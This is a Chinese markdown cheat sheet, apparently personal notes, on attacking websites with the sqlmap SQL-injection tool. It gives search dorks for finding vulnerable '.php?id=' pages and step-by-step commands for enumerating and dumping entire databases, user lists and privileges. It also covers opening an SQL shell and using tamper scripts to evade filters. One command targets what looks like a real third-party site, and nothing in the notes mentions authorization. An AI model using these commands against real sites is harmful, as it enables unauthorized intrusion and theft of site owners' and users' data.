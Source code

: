 # sqlmap笔记

<!-- TOC -->

- [sqlmap笔记](#sqlmap)
    - [查找网站](#)
    - [sqlmap官网](#sqlmap)
    - [sqlmap简介：](#sqlmap)
    - [sqlmap支持五种不同的注入模式：](#sqlmap)
    - [sqlmap支持的数据库有:](#sqlmap)
    - [三种请求类型的注入测试](#)
    - [MYSQL注入步骤：](#mysql)
    - [补充：：](#)
    - [连接数据库：要先安装 PyMySQL/PyMySQL 不过我没成功](#pymysql-pymysql)
    - [延时注入：](#)
    - [Tamper脚本注入：](#tamper)
    - [默认使用level1检测全部数据库类型](#level1)

<!-- /TOC -->

## 查找网站
>inurl：.php?id=
intitle: 登录
## sqlmap官网
>[sqlmap官网](http://sqlmap.org/)
## sqlmap简介：

>还有nosqlmap用nosql用的

## sqlmap支持五种不同的注入模式：
```
    1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
    2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
    3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
    4、联合查询注入，可以使用union的情况下的注入。
    5、堆查询注入，可以同时执行多条语句的执行时的注入。
```
##     sqlmap支持的数据库有:
  >MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## 三种请求类型的注入测试
```    
    GET方式：      sqlmap -u "http://www.vuln.cn/post.php?id=1"
    POST方式：     sqlmap -u "URL:" --data "POST数据"
    Cookie方式：   sqlmap -u "URL:" --cookie "Cookie数据"
```
## MYSQL注入步骤：
```
    1、查看是否有注入点： sqlmap -u "http://xxx.xxx?type=11"
    2、获取库：          sqlmap -u "http://xxx.xxx?type=11" --current-db
    3、获取表：          sqlmap -u "http://xxx.xxx?type=11" --tables -D "库名"
    4、获取字段：        sqlmap -u "http://xxx.xxx?type=11" --columns -T "表名"  -D "库名"
    5、获取字段内容：    sqlmap -u "http://xxx.xxx?type=11" --dump -C "字段" -T "表名"  -D "库名"
```    
##     补充：：
```
    还有获取用户名：    sqlmap -u "http://xxx.xxx?type=11" --current-user
    还有获取所有用户名：    sqlmap -u "http://xxx.xxx?type=11" --users
    获取数据库数量：    sqlmap -u "http://xxx.xxx?type=11" --count -D "库名"
    判断用户权限：      sqlmap -u "http://xxx.xxx?type=11" --privileges
脱裤：          sqlmap -u "http://xxx.xxx?type=11"  --dump-all -D '库名'
```


## 连接数据库：要先安装 PyMySQL/PyMySQL 不过我没成功
>sqlmap -d "mysql://用户:密码@ip地址:3306/数据库" --sql-shell

## 延时注入：
>1、自己写延时多长时间：sqlmap -u "http://xxx.xxx?type=11" --delay 10 <br>
    2、sqlmap -u "http://www.spwsbjgs.com/product.php?tid=87" -safe-freq <br>

## Tamper脚本注入：
>sqlmap -u "URL" --tamper="脚本名"
## 默认使用level1检测全部数据库类型

>sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3<br>
指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）<br>

